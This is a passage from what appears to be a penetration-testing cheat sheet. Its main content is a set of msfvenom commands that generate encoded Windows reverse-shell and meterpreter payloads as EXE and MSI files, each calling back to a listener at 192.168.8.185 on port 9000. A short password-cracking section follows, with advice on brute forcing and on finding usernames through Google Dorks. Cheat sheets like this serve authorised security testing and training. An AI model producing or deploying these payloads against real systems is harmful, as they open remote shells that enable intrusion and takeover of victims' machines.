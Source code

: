 ```fundamental
msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/shell_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f exe -b \x00\x0a\x0d\xff -o /root/Desktop/payload.exe

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/shell_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f exe -b \x00\x0a\x0d\xff -o /root/Desktop/payload.exe

msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/meterpreter_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f exe -o /root/Desktop/payload.exe

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f exe -o /root/Desktop/payload.exe
```

To generate an `MSI file` use one of the following MSFvenom commands (modify them to your need):

```fundamental
msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/shell_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f msi -b \x00\x0a\x0d\xff -o /root/Desktop/payload.msi

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/shell_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f msi -b \x00\x0a\x0d\xff -o /root/Desktop/payload.msi
```

Bytecode might not work on the first try due to some other bad characters. Trial and error is the key.

So far there is no easy way to generate a DLL nor MSI file with a stageless meterpreter shell due to the size issues.

<p id="4-password-cracking"/>

## 4. Password Cracking

**Google a hash before trying to crack it because you might save yourself a lot of time and trouble.**

Use Google Dorks to find files and within file's metadata a domain username to brute force or use [FOCA](#foca).

**Keep in mind that you might lockout people's accounts.**

Keep in mind that some web forms implement CAPTCHA and/or hidden submission tokens which may prevent you from brute forcing.

You can find a bunch of wordlists located at `/usr/share/seclists/` directory.

Also, check the simple one-time-password lists in [/dict/otp.zip](https://github.com/ivan-sincek/penetration-testing-cheat-sheet/tree/master/dict).

**TO DO: Pre-shared key cracking with `ike-scan` and `psk-crack`.**

<p id="4-password-cracking-useful-websites"/>

### Useful Websites

[gchq.github.io/CyberChef](https://gchq.github.io/CyberChef/)
